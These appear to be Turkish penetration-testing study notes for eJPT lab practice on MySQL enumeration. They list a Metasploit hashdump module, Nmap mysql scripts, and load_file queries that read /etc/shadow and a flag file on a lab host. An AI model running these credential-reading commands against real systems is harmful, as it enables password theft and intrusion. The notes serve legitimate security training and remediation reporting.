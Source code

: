 
## SQL MSFCONSOLE HASHDUMP ENUM

### msf6>use  auxiliary/scanner/mysql/mysql_hashdump  
![[Pasted image 20240126124447.png]]

## ÇOK ÖNEMLİ BİZ PAROLAYI VERMESEK DE HUSH DUMP BİZE 
![[Pasted image 20240126124726.png]]


---
---
---
### MYSQL ETC/SHADOW DOSYASI GÖRME
![[Pasted image 20240126125127.png]]

### mysql > select load_file ("/etc/shadow");
##### Sistemde bir config hatası varsa bu istek sonucunda bize /etc/shadow dosyasını göstermesi lazım.

![[Pasted image 20240126125712.png]]

### EĞER BİR ŞEKİLDE ROOT ACCESS'İMİZ VARSA AYNI ŞEKİLDE DİĞER DOSYALARIMIZI DA BU ŞEKİLDE ÇEKEBİLİRİZ.
### mysql > select load_file ("/home/kali/Documents/eJPT/Flag.txt");




---

## Nmap SQL Script
### nmap 10.0.2.5 -p3306 --script=mysql-empty-password
![[Pasted image 20240126130215.png]]
![[Pasted image 20240126130336.png]]

### nmap 10.0.2.5 -p3306 --script=mysql-info
![[Pasted image 20240126130536.png]]
##### Enum devam ediyor. mysql-info script ile sistem hakkındaki bilgiler 

![[Pasted image 20240126130646.png]]
## Burada önemli olan info script çalıştırdık ve sonuçlarda "InteractiveClient" capabilitiee'i gördük bu bir config hatasıdır ve pentest raporunda belirtilip düzeltilmelidir.
### Bu sisteme erişm sağlamamıza olanak veriri MYSQL yoluyla. Bu yüzden hemen düzeltilmelidir.

---